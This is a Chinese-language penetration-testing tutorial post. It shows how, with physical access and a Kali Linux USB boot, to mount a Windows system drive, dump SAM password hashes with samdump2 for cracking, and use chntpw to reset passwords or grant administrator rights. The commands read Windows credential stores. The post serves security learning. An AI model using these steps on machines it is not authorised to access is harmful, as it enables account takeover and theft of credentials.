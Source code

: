 ```yaml
---
title: 'Penetration Testing : 物理攻击之samdump2与chntpw'
date: 2019-11-22 16:36:10
tags: [Penetration Testing,Kali Linux]
---
```


## Penetration Testing : 物理攻击之 samdump2 与 chntpw

### 使用 samdump2 破解 Windows 密码
1. *首先将装有 Kali linux 操作系统的 U 盘插入 PC，并通过设置 BLOS 来启动 Kali linux*

2. *通过命令查看分区情况，然后将 U 盘挂载到 Windows 操作系统的系统盘. 例如我的系统盘显示为 : `/dev/sda2`*
```sh
fdisk -l

mount /dev/sad2 /mnt/
```

3. *进入挂载目录，查看是否正确挂载. ( 如果正确显示系统盘 C 盘文件，则表示挂载成功  )*
```sh
cd /mnt/

ls -la
```

4. *接着进入 Windows 用于存放用户账号密码的文件夹下*
```sh
cd /Windows/System32/config
```

5. *使用 Kali linux 自带的 `samdump2` 来获取存储在 Windows 系统上的用户账号和密码. 然后可通过 cat 命令查看所有用户系统驱动器以及它们的密码散列值*
```sh
samdump2 SYSTEM SAM -o sam.hash

cat sam.hash
```

6. *最后可通过 `Hashcat`，`John Ripper` 或 `Credump` 等工具来完成对用户密码的破解*


#### Tool
> Hashcat : https://github.com/hashcat/hashcat

> John Ripper : https://github.com/magnumripper/JohnTheRipper



## 使用 chntpw 操作 Windows 密码
*`chntpw` 是一个 Kali linux 自带的工具，可以用于编辑 Windows 注册表、重置用户密码、将用户提升为管理员，以及其它的一些有用的选项.*

*前 4 步和上述 `使用 samdump2 破解 Windows 密码` 相同. 进入 Windows 用于存放用户账号密码的文件夹下后，运行 `chntpw`*
```sh
chntpw SAM
```

* 密码存储在 Windows 系统中的 SAM( Security Account Management ) 文件中，它是 Windows XP，Windows Vista 及 Windows 7 等用于存储用户密码的数据库文件

*例如操作指定用户的SAM. ( 可通过命令 `chntpw -l <sam file>` 来查看 SAM 的用户列表 )*
```sh
#chntpw -l <sam file>
#chntpw -u <user><sam file>

chntpw -u username SAM
```

*执行指定的操作后即可执行命令 `q` 退出编辑，最后你应该可以得到确认，例如提示信息 : `<SAM>-OK`*


#### Tool
> chntpw : https://github.com/Tody-Guo/chntpw
